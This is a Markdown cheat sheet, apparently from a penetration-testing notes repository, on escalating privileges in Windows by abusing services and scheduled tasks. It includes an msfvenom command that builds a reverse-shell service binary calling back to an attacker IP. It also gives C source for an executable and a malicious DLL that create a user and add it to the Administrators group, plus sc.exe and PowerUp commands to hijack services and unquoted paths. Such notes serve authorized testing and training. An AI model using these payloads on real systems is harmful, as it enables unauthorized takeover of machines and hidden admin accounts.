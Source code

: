 ```yaml
---
label: Tasks and Services Abuse
---
```


# Tasks and Services Abuse to Privilege Escalation

## Services

A Windows Service is a background executable managed by the SCM (Service Control Manager) and is similar to daemons on Linux. Services can be managed by the Services snap-in, PowerShell, or the `sc.exe` command line tool. Windows uses the `LocalSystem`, `Network Service`, and `Local Service` user accounts to run its own services. Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

### Binary hijacking

Each Windows service has an associated binary file. These binary files are executed when the service is started. If a lower authorized user is able to swap a binary that works as a service with higher privileges, there is a privilege escalation possibility. Once the service is restarted, the attacker's binary will be executed with the privileges of the service, such as `LocalSystem`.

PowerUp:

```powershell
# Get hijackable executables
Get-ModifiableServiceFile
```

Msfvenom has a special module for generating service binaries for Windows:

```powershell
# Generate rev-shell service executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attacker_ip LPORT=$port -f exe-service -o $output
```

You can also write something custom in C using the `system()` function:

```c
#include <stdlib.h>

int main ()
{
  system("net user $user password123! /add");
  system("net localgroup Administrators $user /add");
  
  return 0;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.c -o main.exe
```

### DLL hijacking

By listing installed software or running services, we can find binaries vulnerable to DLL hijacking. If the binary is vulnerable to DLL hijacking (you can check it on the Internet), we can hijack the default DLL path and insert our own malicious DLL instead. Then wait until this binary is run (by the service or another user) and our malicious DLL file is executed with the other user's permissions.

> **REQUIREMENT**: Vulnerable DLL path must be writable for the current user to add inject a malicious DLL.  

How to find binaries vulnerable to DLL hijacking? One way is to use `Process Monitor` tool but unfortunately it requires to be run with administrator privileges. A workaround for this problem is to copy the binary to our local machine in order to investigate it further. Using `Process Monitor` we can identify unsuccessful attempts to access non-existent DLLs. These are the places where we want to inject our own malicious one.

The simplest malicious DLL in C:

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD reason, LPVOID lpReserved ) 
{
  switch (reason)
  {
    case DLL_PROCESS_ATTACH:
      int i;
      i = system("net user $user password123! /add");
      i = system("net localgroup administrators $user /add");
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    
    return TRUE;
}
```

Compilation:

```bash
x86_64-w64-mingw32-gcc main.cpp --shared -o main.dll
```

### Service modification

The service ACL might allow to reconfigure service settings. This allows an attacker to point a malicious executable to the service and even change the account which the executable is run with.

> **NOTE**: By changing service binary path to a _CMD_ command, it is possible to execute shell command after service restart.

[Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool might be necessary to check a service ACL .

```powershell
# Check the service ACL
accesschk64.exe -qlc $svc_name             

# Reconfigure service: run :exe-path with Local SYSTEM account
sc.exe config $svc_name binPath= "$exe_path" obj= LocalSystem
```

PowerUp module:

```powershell
# List modifiable services
Get-ModifiableService -Verbose              

# Abuse service and add user to local Administrators group
Invoke-ServiceAbuse -Name $service -UserName $user
```

#### Unquoted service paths

If the service's executable points to an unquoted path with spaces, SCM tries to execute firt binary which is the first part of the unqoted path. This SCM feature is basically disgusting but it works like that. It allows an attacker to put malicious service binary in the "wrong" path and run it before a legit one will be executed.

Example:

```text
Unquoted binary path : C:\MyPrograms\Disk Sorter.exe

1st execution attempt: C:\MyPrograms\Disk.exe
2st execution attempt: C:\MyPrograms\Disk Sorter.exe
```

Indentify unquoted binary paths:

```powershell
# List potentially vulnerable service binaries
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```powershell
# List all services and their binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# PowerUp module
Get-ServiceUnqoated -Verbose           
```

> **NOTE**: To drop an executable in the root `C:\` directory you need to actually fhave admin privileges so the unquoted `C:\Program Files (x86)\...` is basically useless.

For the exploitation we need to have rights to copy the binary to the vulnerable location and restart the service (or the entire system):

```powershell
# Check path permissions
icacls "C:\path\to\write"

# Start service
Start-Service $service_name

# Stop service
Stop-Service $service_name
```

## Scheduled Tasks

If the task runs periodically as `NT AUTHORITY\SYSTEM` or as an administrative user, then a successful attack could lead us to privilege escalation.

```powershell
# Get scheduled tasks
schtasks /query /fo LIST /v

# Get scheduled tasks
Get-ScheduledTask
```

### Binary replacement

The most common tactic to exploit a scheduled task (when it's run on behalf of another user) is to replace it's binary. Sufficient permissions are required.

```powershell
# Check fule permissions
icacl $target_file
```

